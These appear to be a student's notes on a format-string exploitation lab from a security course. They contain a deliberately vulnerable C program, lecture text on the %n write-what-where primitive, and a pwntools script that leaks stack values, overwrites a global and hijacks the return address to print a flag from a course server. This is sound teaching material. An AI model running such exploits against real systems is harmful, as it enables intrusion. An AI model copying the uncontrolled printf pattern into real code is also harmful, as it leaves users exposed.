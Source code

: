 **Hints from class**
- something messes up the alignment
- Similar to needing a return address buffer

**Write-What-Where**: means we can write whatever we want, to whatever loacation we want

- used to target other types of code pointers
	- strings!!

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <fcntl.h>
//#include "secret.h"

#define INPUT_SIZE 24

int language;

void translate() {
	int fd;
	char buffer[64];

	if((fd = open("./flag.txt", O_RDONLY)) < 0){
		perror("open failed!\n");
		exit(1);
	}


	int c = read(fd, buffer, 64);
	write(STDOUT_FILENO, buffer, c); 

	exit(0);
}

  
  

void modoutput(){

	volatile char buffer1[32];
	char buffer[16];

	fgets(buffer, INPUT_SIZE, stdin);
	printf(buffer);
	read(STDIN_FILENO, buffer, 64);

	if(language != 0xbad) {
		exit(1);
	}

}

  

int main(int argc, char **argv) {
	setbuf(stdout, NULL);
	setbuf(stdin, NULL);
	setbuf(stderr, NULL);

  

printf("%p\n", &translate);

printf("%p\n", &language);

modoutput();

}
```



## Snippet From Notes
In the previous example we provided the address of the `value` variable, but what if the programmer forgot to include this argument? For example:

```
printf("what's my age again??? %n \n");
```

This is essentially the same scenario we discussed previously with our strings example: `printf` will parse the format string, see the `%n`, interpret the word at the appropriate location on the stack as the address argument, try to write to the location specified by this address, and most likely trigger a segmentation fault.

At this point you might be thinking: “Hmmm, if I can control the format string argument to `printf`, and I can leverage that ability to also control how many characters are written via `printf`. Consequently, I can write an arbitrary value via `%n`. Further, if I can control values on the stack, then I can control the address written to by `%n`. In short, I have a write-what-where primitive.” If you were thinking this, then you would be correct. A write-what-where vulnerability can be very powerful for the attacker, e.g., she can hijack the control-flow by targeting entries in the global offset table.

```python
trans_addr = 0x5555555548fa+0x5
lang_addr = 0x55555575504c

#leak info on the stack
def leak(param_num):
	p = remote('cs4401shell.walls.ninja', 9898)
	p.recvlines(2)
	p.sendline(f"%{param_num}$p".encode())
	leak_raw = p.recvline().strip()
	leak_val = int(leak_raw, 16)
	p.sendline(b'a')
	p.recvall()
	p.wait()
	return leak_val

for param_num in range(1, 32):
	try:
		with context.silent:
			leak_value = leak(param_num)
		log.info("Value leaked at param {num}: {val}".format(num=param_num, val=hex(leak_value)))
		pass
	except Exception as e:
		log.info("Failed to leak param number {num}".format(num=param_num))

align = 3
exploit_str = flat({
	0:b'%2989s%10$n',
	16+align:lang_addr
})

exploit_str_2 = flat({
	align: p64(trans_addr)*10
})

p = remote('cs4401shell.walls.ninja', 9898)
p.clean_and_log()

p.sendline(exploit_str)
p.sendline(exploit_str_2)

p.recvall(timeout=1)
p.wait()
```

#### Gloabl vs. Local
- local: stored on the stack
- global: stored near the text/code section
	- overwrite with %n specifier
